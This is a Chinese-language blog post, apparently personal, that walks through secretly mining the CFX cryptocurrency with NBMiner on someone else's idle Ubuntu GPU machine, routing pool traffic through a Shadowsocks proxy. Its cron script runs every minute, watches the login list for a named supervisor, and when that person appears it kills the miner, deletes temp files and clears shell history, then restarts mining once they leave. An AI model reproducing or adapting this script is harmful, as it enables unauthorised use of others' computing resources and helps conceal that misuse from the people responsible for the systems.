 ```yaml
---
title: nbminer配合cron，偷偷摸摸无敌了！
tags: 运维 ubuntu cfx blockchain
article_header:
  type: cover
  image:
    src: /blimjoe/pictures/blogs/2022-11-23-cover.png
---
```

使用未使用（未被登录设备）挖CFX  
> Conflux’s token economy is built around the $CFX token, a unit of value on the platform that enables token holders to pay transaction fees, earn rewards through staking, rent storage, and participate in network governance. CFX also incentivizes and rewards miners, who ensure the secure operation of the Network.  
>  
   
### blablabla! What ever! （翻白眼）  
我这边使用的是未在被使用的nvidiea显卡的Ubuntu 20.04  
---  
## 开始  
### 1. nvidiea cuda的安装。  
这里我不说了，网上一搜都是。  
### 2. 选择池子  
矿池选择比较重要，我会选择算力比较强点的。cfx现在大多是gpu在挖，asic少，所以还可以玩玩。  
我这里选择了[f2pool](https://www.f2pool.com/)，简单注册。  
### 3. ss搭建  
由于现在矿池地址大多被墙了，所以要搭一个ss给miner用。  
国外几个vps平台我推荐AWS和GCP。GCP呢，没得话说。好用！就是贵。不差钱的可以用。AWS有aws lightsail，3刀一个月，不限流量。用起来还是比较爽的。  
注册或者aws账号之后进入lightsail，并开通服务器。我使用的是日本节点。稍微快一点。但是现在aws不被墙的ip也少了很多，还是拼运气吧。  
系统选择，ubuntu。别问为什么。问就是方便。  
安装shadowsocks-libev  
```
$ apt install shadowsocks-libev  
```  
配置server端config  
/etc/shadowsocks-libev/config.json  
```  
{
        "server":"0.0.0.0",
        "server_port":xxxxxx,
        "password":"xxxxxx",
        "method":"aes-256-cfb",
        "timeout":60
}
```  
密码及端口自己填。但是记得选择的端口要在服务器的出入站规则中添加进去哦。  
### 4. 本地ss client  
本机上同样的  
```  
$ apt install shadowsocks-libev
```  
本地配置文件  
```  
{
        "server":"xx.xx.xx.xx",
        "server_port":xxxx,
        "local_port":1080,
        "password":"xxxx",
        "timeout":60,
        "method":"aes-256-cfb",
        "mode":"tcp_and_udp",
        "fast_open":false
}
```  
server地址、端口、密码填上自己的。  
测试一下，使用proxychains  
```
$ apt install proxychains
$ ss-local -c config.json
```  
增加/etc/proxychains.conf最后加一行  
```  
socks5 127.0.0.1 1080
```  
如果  
```  
$ proxychains wget www.google.com  
```  
可以成功。恭喜翻墙成功。  
### 5. 挖矿软件  
我用了nbminer  
```  
$ wget https://github.com/NebuTech/NBMiner/releases/download/v42.3/NBMiner_42.3_Linux.tgz
$ tar zxf NBMiner_42.3_Linux.tgz
$ ./NBMiner_Linux/nbminer -a octopus -o stratum+tcp://cfx.f2pool.com:6800 -u blimjoe.f2pool001 --proxy 127.0.0.1:1080 
记住吧-u后面的内容填你自己的，要不然就帮我了。 
``` 
### 6. 写个脚本  
```bash
#!/bin/bash

sleep 5

# f2pool
/home/bdong/NBMiner_Linux/nbminer -a octopus -o stratum+tcp://cfx.f2pool.com:6800 -u blimjoe.f2pool001 --proxy 127.0.0.1:1080
```  
### 7. 写个cron脚本定时执行  
由于我是偷偷摸摸，懂的都懂。所以为了不让发现，写了个crontab用的脚本  
```bash
#!/bin/bash

monitor=（你怕的那个人）
currentTime=$(date "+%Y-%m-%d %H:%M:%S")
file=/tmp/$RANDOM.service
screenalive=no
monitordet=no

touch ${file}
screen -ls > ${file}
sed -i '1d' ${file}
sed -i '$d' ${file}
cat ${file} | awk '{print $1}' > /tmp/tmp
while read line
do
        name=$(echo $line | awk -F '.' '{print $2}')
        if [ ${name} == 'nb' ]; then
		unset screenalive
		screenalive=yes
        fi
done < /tmp/tmp
rm ${file}
rm /tmp/tmp

who | awk '{print $1}' > /tmp/tmp
while read line
do
	if [ $line == ${monitor} ];
	then
		echo ${currentTime} ${monitor}' detected!!!! Stoping!!!!' >> /home/bdong/log
	#	echo "monitored"
		monitordet=yes
		break
	fi

done < /tmp/tmp
rm /tmp/tmp

if [ ${screenalive} == yes ] && [ ${monitordet} == yes ];
then
	screen -S nb -X quit
	sleep 2
	abc=$(ls /tmp/trex* 2> /dev/null | wc -l);
	if [ "$abc" != "0" ] ;then
		rm /tmp/trex*
	fi
	history -c
	exit 0
fi

if [ ${screenalive} == no ] && [ ${monitordet} == no ];
then
	#echo "start"
	screen -dmS nb -c /home/bdong/nb -m top
	echo ${currentTime} ' CLEAR! :D Starting...' >> /home/bdong/log
fi
```  
### 8. 增加cron  
```  
$ crontab -e
```  
增加  
```
*/1 *  *  *  * /home/bdong/cron
```  
每分钟执行以下  
### 9. 结束  
就OK了。然后愉快的去f2pool上看一下收益吧……不看不知道，一看心塞塞: )  
